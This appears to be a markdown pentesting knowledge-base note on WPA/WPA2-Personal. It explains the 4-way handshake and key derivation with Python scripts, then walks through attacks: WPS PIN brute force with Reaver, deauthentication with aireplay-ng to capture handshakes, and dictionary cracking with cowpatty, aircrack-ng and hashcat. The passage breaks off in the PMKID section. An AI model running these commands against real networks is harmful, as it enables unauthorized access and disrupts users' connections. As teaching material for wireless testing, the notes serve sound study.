






---
tags:
  - knowledge-base
  - airmon-ng
  - airodump-ng
  - wash
  - wpa
  - wireshark
  - reaver
  - iw
  - iwconfig
  - ip
  - aireplay-ng
  - cowpatty
  - aircrack-ng
  - hashcat
  - hcxdumptool
  - hcxpcapngtool
category: wifi
---

## Overview

Wi-Fi Protected Access (WPA), Wi-Fi Protected Access 2 (WPA2), and Wi-Fi Protected Access 3 (WPA3) are security certification programs developed by the Wi-Fi Alliance after the year 2000 to secure wireless networks. These standards were introduced in response to significant vulnerabilities discovered in the earlier Wired Equivalent Privacy (WEP) system.

- `WPA (Wi-Fi Protected Access)`: Introduced as an interim improvement over WEP, WPA offers better encryption through TKIP (Temporal Key Integrity Protocol), but it is still less secure than newer standards.
- `WPA2 (Wi-Fi Protected Access II)`: A significant advancement over WPA, WPA2 uses AES (Advanced Encryption Standard) for robust security. It has been the standard for many years, providing strong protection for most networks.

WPA has two modes:

- `WPA-Personal`: It uses pre-shared keys (PSK) and is designed for personal use (home use).
- `WPA-Enterprise`: It is especially designed for organizations.

### WPA/WPA2 Personal (PSK)

Wi-Fi Protected Access (WPA) Personal was created to replace Wired Equivalent Privacy (WEP). WPA originally implemented the Temporal Key Integrity Protocol (TKIP), which used a dynamic per-packet key to address WEP's vulnerabilities, particularly those involving initialization vector attacks. In addition, WPA introduced Message Integrity Checks (MICs), improving security over the Cyclic Redundancy Checks (CRCs) used by WEP. WPA2 introduced support for CCMP and AES encryption modes, to provide more secure communications.

Although WPA/WPA2 Personal does not support some of the more robust security features seen in WPA/WPA2 Enterprise, it is still widely used for residential routers and in some business settings. Due to the nature of a re-used pre-shared key (Wi-Fi Password), it omits certain protections that are standard in more secure wireless environments. Some of the common methods for capturing the pre-shared key include `Handshake Capture`, `PMKID Capture`, `Wi-Fi Protected Setup`, and `Evil-Twin/Social Engineering` related attacks. With these techniques, an adversary will likely be able to retrieve the clear text version of the pre-shared key and subsequently compromise the wireless network.

### WPA/WPA2 Enterprise (MGT)

Wi-Fi Protected Access Enterprise was developed to meet the need for stronger wireless encryption standards. By utilizing 802.1X security, WPA Enterprise offers more secure communication through the Extensible Authentication Protocol (EAP). Unlike its personal counterpart, WPA/WPA2 Enterprise relies heavily on authentication methods, with one of the key differences being its use of a `RADIUS` server for authentication.

The standard employs Extensible Authentication Protocol-Transport Layer Security (EAP-TLS) to provide better encryption for client devices. WPA Enterprise offers various configuration options to accommodate different use cases, providing flexibility for network administrators. It also addresses vulnerabilities associated with pre-shared key attacks, such as dictionary and brute-force attacks, by supporting diverse authentication methods. However, misconfigurations and inherent design flaws have exposed vulnerabilities in the enterprise standard, making it susceptible to attacks such as evil-twin attacks (used to capture authentication hashes) or security-downgrading of client in order to retrieve plaintext credentials.

## WPA Personal

[Wi-Fi Protected Access (WPA)](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access) was introduced in 2003 as a replacement for the broken WEP encryption system and was designed to work on the same hardware. WEP used a 40-bit or 104-bit key, which, when combined with a 24-bit initialization vector (IV), resulted in an overall 64-bit or 128-bit seed. This static key system was one of WEP’s major vulnerabilities as it never changed. In contrast, the WPA protocol implemented the Temporal Key Integrity Protocol (TKIP), which dynamically generates a new 128-bit key for each packet and includes Message Integrity Checks (MIC). This prevents the types of attacks that compromised WEP by adding per-packet key mixing and other security improvements.

Additionally, WPA2 employs the Advanced Encryption Standard (AES), enhancing security through the Counter-Mode/CBC-Mac Protocol (CCMP). AES keys used in WPA2 can be 128, 192, or 256 bits long, offering stronger encryption.

The PSK in WPA2-PSK stands for `Pre-Shared Key`, which is a secret key shared between the access point and the clients. However, this key is derived from the passphrase set by the network user or administrator. If a weak passphrase is chosen, the network becomes vulnerable to dictionary attacks.

### Connection Process

1. `Beacon Frames`
2. `Probe Request and Response`
3. `Authentication Request and Response`
4. `Association Request and Response`
5. `4-Way Handshake`
6. `Disassociation/Deauthentication`

#### Beacon Frames

Beacon frames are primarily used by the access point to communicate its presence to the client or station. They include information such as supported ciphers, authentication types, its SSID, and supported data rates among others.

#### Probe Requests and Responses

The probe request and response process exists to allow the client to discover nearby access points (APs). The client sends a probe request, which can include the specific SSID (Service Set Identifier) of the desired network or be a general broadcast to find any available networks. If the SSID is hidden, the client still sends a request with the SSID in its probe. The AP in turn sends a probe response that contains information about itself for the client.

#### Authentication Request and Response

Authentication requests are sent by the client to the access point to begin the connection process. These frames are primarily used to identify the client to the access point.

#### Association/Reassociation Requests

After sending an authentication request and undergoing the authentication process, the client sends an association request to the access point. The access point then responds with an association response to indicate whether the client is able to associate with it or not.

#### 4-Way Handshake

After the association/reassociation request, a 4-way handshake is formed between the AP and client. This process securely establishes a shared encryption key (Pairwise Transient Key) between the client and access point, by exchanging nonce values and confirming mutual authentication.

#### Disassociation/De-authentication Frames

Disassociation and De-authentication frames are sent by the access point to a client, and they serve to terminate the connection between them. Much like their counterparts (association and authentication frames), they play a key role in managing Wi-Fi connections. Each frame contains a reason code, explaining why the client is being disconnected from the network. In Wi-Fi penetration testing, these frames are often crafted for capturing handshakes or launching denial-of-service attacks.

### Wireshark Filtering

Beacon frames from the access point can be identified using the following Wireshark filter:

```wireshark
(wlan.fc.type == 0) && (wlan.fc.type_subtype == 8)
```

Probe request frames from the client can be identified using the following Wireshark filter:

```wireshark
(wlan.fc.type == 0) && (wlan.fc.type_subtype == 4)
```

Probe response frames from the access point can be identified using the following Wireshark filter:

```wireshark
(wlan.fc.type == 0) && (wlan.fc.type_subtype == 5)
```

The authentication process between the client and the access point can be observed using the following Wireshark filter:

```wireshark
(wlan.fc.type == 0) && (wlan.fc.type_subtype == 11)
```

After the authentication process is complete, the station's association request can be viewed using the following Wireshark filter:

```wireshark
(wlan.fc.type == 0) && (wlan.fc.type_subtype == 0)
```

The access point's association response can be viewed using the following Wireshark filter:

```wireshark
(wlan.fc.type == 0) && (wlan.fc.type_subtype == 1)
```

The EAPOL (handshake) frames can be viewed using the following Wireshark filter:

```wireshark
eapol
```

Once the connection process is complete, the termination of the connection can be viewed by identifying which party (client or access point) initiated the disconnection. This can be done using the following Wireshark filter to capture Disassociation frames (10) or De-authentication frames (12).

```wireshark
(wlan.fc.type == 0) && (wlan.fc.type_subtype == 12) or (wlan.fc.type_subtype == 10)
```

### The 4-Way Handshake

When connecting to the wireless network, both the client and the wireless access point (AP) must ensure that they both have/know the correct wireless network key, while never transmitting the key across the network. Instead, a series of encrypted messages, including nonces (random numbers) and MAC addresses, is exchanged to verify the key without revealing it.

Once the key has been verified, it is used to generate several encryption keys, including the `Message Integrity Check (MIC)` key. The MIC ensures that each packet has not been tampered with during transmission, confirming the data’s integrity and authenticity.



| Message     | Actions During Message                                                                                                                                                                                                    |
| ----------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Message 1` | - The access point sends the client the ANONCE value<br>- The client then begins constructing the PTK<br>- PTK = PMK + Anonce + Snonce + Access Point Mac (AA) + Station/Client Mac (SA)                                  |
| `Message 2` | - The client sends the access point the SNONCE value and a MIC (Message Integrity Check)<br>- The access point then re-constructs the PTK to validate the message                                                         |
| `Message 3` | - The access point then contructs the GTK from the GMK<br>- The GTK is then sent to the client from the access point                                                                                                      |
| `Message 4` | - The client then acknowledges that it has both the transient and temporal encryption keys<br>- The PTK and GTK are then both installed on the access point and client. Upon acknowledgement, normal communications ensue |

Once all of this is complete, the GTK is used to decrypt broadcast and multicast communications between the access point and the client.

| Name                            | Definition                                                                                                                                             |
| ------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `Anonce`                        | A randomly generated value from the access point.                                                                                                      |
| `Snonce`                        | A randomly generated value from the client.                                                                                                            |
| `Service Set Identifier (SSID)` | The name of the access point (e.g., HTB-Wi-Fi).                                                                                                        |
| `Pairwise Master Key`           | Derived from the Pre-Shared Key, SSID, and others. This key is typically not transmitted.                                                              |
| `Pairwise Transient Key`        | Constructed by combining the PMK, Anonce, Snonce, the access point’s MAC address, and the client’s MAC address. It is used to encrypt unicast traffic. |
| `Group Master Key`              | Generated by the access point to be used to seed the Group Temporal Key.                                                                               |
| `Group Temporal Key`            | Derived from the Group Master Key (GMK) and used to encrypt multicast and broadcast traffic.                                                           |

### Construction of the Keys
#### The Pairwise Master Key (PMK)

The `Pairwise Master Key (PMK)` is derived from the Pre-Shared Key (PSK) and the SSID of the network. To generate the PMK, the Password-Based Key Derivation Function 2 (PBKDF2) is used, which employs HMAC-SHA1 as the hashing algorithm. The SSID serves as the salt, and the PMK is created through 4096 iterations of the PBKDF2 function.

It's important to note that the PMK is never directly transmitted between the client and the access point. Instead, it is used to derive the Pairwise Transient Key (PTK), which is responsible for securing communication. For a demonstration, let’s examine and try out the scripts seen below.

The following is a PMK Generation PoC Script based on the equation for the PMK:

`PMK = PBKDF2(HMAC-SHA, PSK, SSID, 4096, 256)`

```python
import hashlib
import os, binascii

#This script generates two novel PMKs using 4096 iterations, with a pre-defined SSID and two different PSKs.
#It then prints out both generated Pairwise Master Keys, as you can see they are different.

SSID = "WirelessNetwork"
PSK = "whatthehex"
PSKB = "supersecurepassphrase"
print("Wireless Network Name: " + SSID)
print ("--------------------------------------------")

#This is the bread and butter of the derivation. As seen, it uses HMAC-SHA1, the PSK, SSID, 4096 iterations, and 32-byte (256-bit) length.
PMK = hashlib.pbkdf2_hmac('sha1', bytes(PSK, 'utf-8'), bytes(SSID, 'utf-8'), 4096, 32)
PMKB = hashlib.pbkdf2_hmac('sha1', bytes(PSKB, 'utf-8'), bytes(SSID, 'utf-8'), 4096, 32)

#This converts the generated PMKs.
Readable_PMK = binascii.hexlify(PMK)
Readable_PMKB = binascii.hexlify(PMKB)

#Finally to see the bytes-object of our PMK :)
print ("First Pairwise Master Key:" + str(Readable_PMK) + "\n Real PSK: " + PSK)
print ("Second Pairwise Master Key: " + str(Readable_PMKB) + "\n Real PSK:" + PSKB)
```

#### The Pairwise Transient Key (PTK)

While the Pairwise Transient Key is dependent on the generation of the PMK, other values need to be generated in order to ensure randomness for each handshake. This is why the ANONCE and SNONCE values are used, along with the access point MAC address and client MAC address. The PTK ultimately consists of five separate blocks, as seen in the table below.

`PTK = PMK + Anonce + Snonce + Access Point Mac (AA) + Station/Client Mac (SA)`

| Block        | Contains                                               |
| ------------ | ------------------------------------------------------ |
| First block  | Key Confirmation Key (KCK)                             |
| Second block | Key Encryption Key (KEK)                               |
| Third block  | Temporal Key (TK)                                      |
| Fourth block | MIC Authenticator Tx Key (MIC Tx)(Only used with TKIP) |
| Fifth block  | MIC Authenticator Rx Key (MIC Rx)(Only used with TKIP) |

1. `Key Confirmation Key`: This piece is used when the MIC is created.
2. `Key Encryption Key`: This piece is crucial as the Access Point uses it during encryption of data.
3. `Temporal Key`: This is used for unicast packets in terms of encryption and decryption.

Here is a simple PTK Generation PoC Script that produces a final output of 256-bits (32-bytes), including padding. In real transmissions, the PTK is typically 256-bits (32-bytes) in length.

```python
import hashlib
import hmac
import os, binascii
import random

#As before, first we must generate the Pairwise Master Key.

SSID = "WirelessNetwork"
PSK = "whatthehex"
print("Wireless Network Name: " + SSID)
print ("Pre-Shared Key: " + PSK)
print ("--------------------------------------------")

PMK = hashlib.pbkdf2_hmac('sha1', bytes(PSK, 'utf-8'), bytes(SSID, 'utf-8'), 4096, 32)
Readable_PMK = binascii.hexlify(PMK)
print ("Pairwise Master Key:" + str(Readable_PMK) + "\n Real PSK: " + PSK)
print ("--------------------------------------------")

#Now we need to convert the values of our MACs.
APMAC = "00:FF:FF:FF:FF:FF" #AP's MAC address
APMACS = APMAC.replace(':', '') #Remove :
APMACHEX = binascii.a2b_hex(APMACS) #Convert to hex
CLMAC = "01:FF:FF:FF:FF:FF" 
CLMACS = CLMAC.replace(':', '')
CLMACHEX = binascii.a2b_hex(CLMACS)

#Now to generate our ANONCE and SNONCE values, we are assuming a min/max length of 8 for ease of use.
Anonce = random.randint(10000000,99999999)
Anonce_val = str(Anonce)
Anoncebyte_val = binascii.a2b_hex(Anonce_val)
Snonce = random.randint(10000000,99999999)
Snonce_val= str(Snonce)
Snoncebyte_val = binascii.a2b_hex(Snonce_val)

#Now to calculate the Key Data and Join the overall message
KeyData = min(APMACHEX, CLMACHEX) + max(APMACHEX, CLMACHEX) + min(Anoncebyte_val, Snoncebyte_val) + max(Anoncebyte_val, Snoncebyte_val)

#Final Calculation of Example Simple PTK
PTK = hmac.new(PMK, KeyData, hashlib.sha1).digest()
nonces = b'\x00' * (32 - len(PTK)) #nonce padding
PTKFinal = PTK + nonces

print("Access Point's MAC Address: " + APMAC + '  ' + str(APMACHEX))
print("Client's MAC Address: " + CLMAC + '   ' + str(CLMACHEX))
print("--------------------------------------------")
print("Anonce Value: " + str(Anonce) + '   ' + str(Anoncebyte_val))
print("Snonce Value: " + str(Snonce) + '   ' + str(Snoncebyte_val))
print("--------------------------------------------")
print("Calculated Key Data: " + str(KeyData))
print("--------------------------------------------")
print("Pairwise Transient Key: " + str(PTKFinal))
print(str(len(PTKFinal)) + " bytes in length")
```

#### Additional Keys

During the WPA handshake, several additional keys are generated as well. These include the Temporal Key, Key Confirmation Key (KCK), and Key Encryption Key (KEK).

They can be found with the following algorithms:

`TK` = `PRF(PMK, "Pairwise key expansion", Min(ANonce, SNonce) || Max(ANonce, SNonce))`

`KCK` = `PRF(TK, "Key Confirmation Key", Min(ANonce, SNonce) || Max(ANonce, SNonce))`

`KEK` = `PRF(TK, "Key Encryption Key", Max(ANonce, SNonce) || Min(ANonce, SNonce))`

These are each used for the following:

`Temporal Key`: The temporal key is used for data encryption and integrity checking during communications.

`Key Confirmation Key` + `Key Encryption Key`: The KCK and KEK are used to confirm and encrypt messages during the handshake.

### Dictionary Attacks

In order to crack WPA handshake messages, we can either capture the `PMKID` or `MICs` in the handshake. Essentially, we take all of the known values from our capture, then use them to perform our cracking efforts. To derive the MIC, we can use the following equation:

`MIC = HMAC-SHA1(PMK, ANonce || SNonce || AP_MAC || Client_MAC || Message_Length)`

Some routers are vulnerable to the PMKID attack because they have the roaming feature enabled, which allows the attacker to retrieve the PMKID directly from the access point.

## Recon and Brute-forcing

If we identify a WPA network as our target with multiple clients connected, we can perform a de-authentication attack to force a reauthentication and capture the 4-way handshake. If the target network has no connected clients, we can check if the access point is vulnerable to a PMKID attack, which allows us to capture the PMKID directly. Additionally, if the WPA network has WPS enabled, it presents an even easier attack vector, as WPS uses an older technology with an 8-digit PIN that can be brute-forced.

### Reconning the Environment

Enable monitor mode

```bash
sudo airmon-ng start wlan0
```

Scan for networks

```bash
sudo airodump-ng wlan0mon
```

The `Encryption Type (ENC)` indicates if it is a WPA vs WPA2 network. For WPA2 the ENC type will say WPA2 with the `CCMP` cipher. For WPA2 the cipher will be TKIP and the ENC would display as WPA, meaning it's using WPA1. If the `AUTH` is PSK then it's a WPA/WPA2 Personal network. If it is MGT it would be a WPA/WPA2 Enterprise network.

There are three primary methods to attack WPA/WPA2-Personal networks:

1. `Check if WPS is enabled and brute-force the PIN.`
2. `Capture the 4-way handshake and perform a dictionary attack to recover the PSK.`
3. `Execute a PMKID attack on vulnerable access points.`

### Enumerating for WPS

Enable monitor mode

```bash
sudo airmon-ng start wlan0
```

Scan to see if WPS is enabled

```bash
sudo airodump-ng wlan0mon -c 1 --wps
```

Or with `Wash`

```bash
sudo wash -j -i wlan0mon
```

It is important to check the `wps_locked` status from wash. If it is set to `2`, it means WPS is not in a locked state. 

We can additionally find out which vendor is associated with the access point with the following command. We specify the beginning of the MAC address.

```bash
grep -i "XX-XX-XX" /var/lib/ieee-data/oui.txt
```

### Brute-Forcing WPS

> [!INFO] For more detailed info check out [[(WPS) Wi-Fi Protected Setup]]

We will use Reaver to brute-force the WPS PIN. However, due to a known bug, setting the interface to monitor mode using airmon-ng can cause Reaver to malfunction. To avoid this, we'll first stop the interface in monitor mode with airmon-ng. Then, we'll use the iw command to add a new interface named mon0 and set its type to monitor mode.

```bash
sudo iw dev wlan0 interface add mon0 type monitor
sudo ip link set mon0 up
```

Once our interface is in monitor mode, we can launch Reaver, specifying the BSSID of our target, the appropriate channel, and our interface in monitor mode (mon0) to begin the WPS PIN brute-force attack.

```bash
sudo reaver -i mon0 -c 1 -b XX:XX:XX:XX:XX:XX
```

## Cracking the MIC (4-Way Handshake)

To perform this type of offline cracking attack, we need to capture a valid 4-way handshake by sending de-authentication frames to force a client (user) to disconnect from an AP. When the client reauthenticates (usually automatically), the attacker can attempt to sniff out the WPA 4-way handshake without their knowledge. This handshake is a collection of keys exchanged during the authentication process between the client and the associated AP.

Steps to crack the MIC:
1. `Capturing 4-Way Handshake`
2. `Analyzing Captured Handshake`
3. `Cracking the MIC (4-Way Handshake)`

### Capturing the Handshake

Enable monitor mode 

```bash
sudo airmon-ng start wlan0
```

Scan for available networks using `-w WPA` to save the output to files

```bash
sudo airodump-ng wlan0mon -c 1 -w WPA
```

We can now execute a de-authentication attack on connected clients using `aireplay-ng`, forcing them to reconnect to the access point. This allows us to capture the 4-way handshake using airodump-ng.

```bash
sudo aireplay-ng -0 5 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

After a few seconds of performing the de-authentication attack, we should see the `WPA handshake` captured in our airodump-ng output.

### Analyzing the Handshake

We need to ensure that we've captured a complete and valid handshake with all four messages. Attempting to crack an incomplete handshake would be a significant waste of time and resources. We can analyze the captured handshake using both automated tools and manual inspection with Wireshark.

#### Using CowPatty

`CowPatty` can be used to crack WPA handshakes and verify them. There are many tools available to automatically verify a handshake, but CowPatty remains one of the best. To check the WPA handshake with CowPatty, we employ the following command, specifying check mode with `-c`, and our capture file with `-r`.

```bash
cowpatty -c -r WPA-01.cap
```

#### Using Wireshark

Upon opening the capture file into `Wireshark`, provide the `eapol` filter to only show eapol messages.


`Message 1`:
In Wireshark, we want to look for sequential EAPOL messages from message 1 to 4. Then we can analyze each message by opening the 802.1X Authentication tab. If we recall, message 1 and 3 are similar as they repeat the same nonce value.



First, we need to see the WPA Key Nonce in message 1.

`Message 2`:



`Message 3`:



We should see that the WPA Key nonce value is the same in message 3 as it is in message 1.

`Message 4`:



For message four, we should see no key nonce value and only a MIC value.

As such, to verify the handshake in Wireshark, we can check the following:

- All four EAPOL messages exist per each handshake in sequential order
- Key nonce values are the same in message 1 and 3

### Cracking the Handshake

There are a tool few options for cracking the handshake, hashcat, john, cowpatty, and aircrack-ng are some.

#### CowPatty

```bash
cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s SSID
```

#### Aircrack-ng

```bash
aircrack-ng -w /opt/wordlist.txt -0 WPA-01.cap
```

#### Hashcat

```bash
hcxpcapngtool -o hash.hc22000 WPA-01.cap
hashcat -a 0 -m 22000 hash.hc22000 /opt/wordlist.txt
```

## PMKID Attack


> [!INFO] Mitigation
> WPA/WPA2-PSK PMKID attacks can be mitigated by disabling Fast Roaming features on the access point (Router).


The PMKID attack was discovered and brought to exploitable fruition by the [hashcat team](https://hashcat.net/forum/thread-7717.html). Unlike traditional handshake capture and brute-force methods that rely on the client de-authenticating and re-authenticating, the PMKID attack captures the PMKID directly without needing this interaction. The captured PMKID is then cracked. The PMKID vulnerability inherently exists due to PMK caching, and this attack is effective against both WPA and WPA2 protocols.

### PMK Caching and PMKID

Access Point (AP) roaming occurs when a client moves outside the range of an AP and connects to another AP. Similar to handoffs in cellular networks, this roaming can impact connectivity, as each time a client transitions between APs, a new 4-way handshake must be performed. Many routers store the `PMKID` from the initial exchange in a PMK Security Association (PMKSA) cache. This way, when a client disconnects and reconnects, the 4-way handshake doesn’t need to be repeated. Instead, the router directly requests the PMKSA from the client, verifies it, and then quickly re-associates the client with the access point.

`PMKSA = PMKID + Lifetime of PMK + MAC addresses + other variables`



### Computing the PMKID

Generate the PMK with the pre-shared key and ESSID of the Access Point.

`PMK = PBKDF2(PSK, ESSID, 4096)`

Now substitute it into the algorithm to calculate the PMKID

`PMKID = HMAC-SHA1-128(PMK, "PMK Name", AP-MAC, ST-MAC)`

We can use the following python script to do it for us

```python
from pbkdf2 import PBKDF2
import binascii, hmac, hashlib, codecs

#First we need to declare the PSK and ESSID
PSK = 'VerySecurePassword'
ESSID = 'WirelessNetwork'

#Taking in the MAC addresses and converting to hex
APMac = '00:ca:12:11:12:13' #Access Point MAC Address
StMac = '00:ca:12:12:13:14' #Station MAC Address
#Removes :, converts to binary, then converts to hexadecimal
APMachex = binascii.hexlify(binascii.unhexlify(APMac.replace(':', '')))
StMachex = binascii.hexlify(binascii.unhexlify(StMac.replace(':', '')))

#Declares our message for the PMKID calculation
message = "PMK Name" + str(APMachex) + str(StMachex)

#Calculation of the PMK
pmk = PBKDF2(PSK, ESSID, 4096).read(32)

#Then we calculate the PMKID, we do so with hmac. The general syntax is hmac(key, msg,digestmod)
